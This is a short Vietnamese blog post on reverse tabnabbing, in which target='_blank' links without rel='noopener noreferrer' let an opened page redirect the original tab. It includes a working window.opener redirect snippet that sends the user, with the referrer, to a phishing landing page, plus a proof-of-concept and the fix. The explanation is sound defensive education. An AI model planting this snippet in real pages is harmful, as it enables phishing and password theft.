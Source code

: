 ```yaml
---
layout: Post
title: Đi câu cá với target="_blank"
date: 2016-10-01
feature-img: ./cover.jpg
tags: [html, phishing, security]
---
```


## Giới thiệu

Đi câu cá hay mấy anh Tây hay gọi Phishing có nghĩa là lừa đảo nhằm đánh cắp tài khoản, mật khẩu, thẻ tín dụng của người dùng. Bài viết này sẽ giới thiệu các bạn cách câu cá với thuộc tính `target="_blank"` của trình duyệt.

## Cách thức

Nếu bạn dùng thuộc tính `target="_blank"` trên một liên kết mà không kèm thuộc tính `rel="noopener noreferrer"` để mở một trang web không thuộc quyền kiểm soát của bạn. Trang vừa mở sẽ truy cập được toàn bộ `window` object của bạn thông qua `window.opener`

Đoạn mã dưới đây sẽ minh họa điều đó

```js
if (window.opener) {
  window.opener.location = "https://khoanguyen.me/phishing-target-blank/landing.html?referrer="+document.referrer
}
```

Đâu có gì nghiêm trọng phải không nào? Hãy thử tưởng tượng `https://khoanguyen.me/phishing-target-blank/landing.html` là một trang mồi của mấy anh câu cá với giao diện đăng nhập như trang của bạn, người dùng sẽ bị mất mật khẩu một cách dễ dàng.

## Ví dụ

![](./poc.gif)

1. Vào fanpage [Khoa Nguyen dot me](https://www.facebook.com/khoanguyendotme/about)
2. Bấm Like giúp mình (câu like rẻ tiền)
3. Bấm vào liên kết `khoanguyen.me`. Một thẻ/ cửa sổ trình duyệt mới sẽ mở ra
4. Chú ý thẻ ban đầu (Facebook.com) đã được chuyển tới trang [này](https://khoanguyen.me/phishing-target-blank/landing.html)

![](assets/index-decf1.png)

## Khắc phục

Cách khắc phục là chèn thuộc tính `rel="noopener noreferrer"` vào tất cả các liên kết có thuộc tính `target="_blank"`. Hoặc ít nhất là vào những liên kết do người dùng chèn vào.

Và trên hết, nếu bạn phát hiện trang web nào có lỗ hổng này, hãy báo ngay cho quản trị của các trang web đó để khắc phục
